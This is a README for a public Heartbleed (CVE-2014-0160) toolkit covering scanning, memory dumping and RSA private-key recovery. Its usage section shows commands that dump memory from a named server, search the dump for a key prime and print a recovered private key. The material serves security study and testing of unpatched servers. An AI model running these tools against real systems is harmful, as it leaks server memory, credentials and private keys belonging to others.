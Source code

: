 ## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros / https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Unlike many other Heartbleed PoCs, this tool will supply most possible ciphers in the initial
ClientHello packet. Whatever cipher the server picks will be used for all subsequent ClientHello
packets in a dump session. That should ensure proper vulnerability detection, as well as
decrease overhead once a cipher has been found.

Use these tools as you please, but do us all a favor: Solve problems instead of creating them.

Based on works by:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

```
# Test vulnerability
$ ./hb.py -p 4433 localhost
localhost:4433 is vulnerable

# Dupm data from CloudFlare's old challenge server
$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.
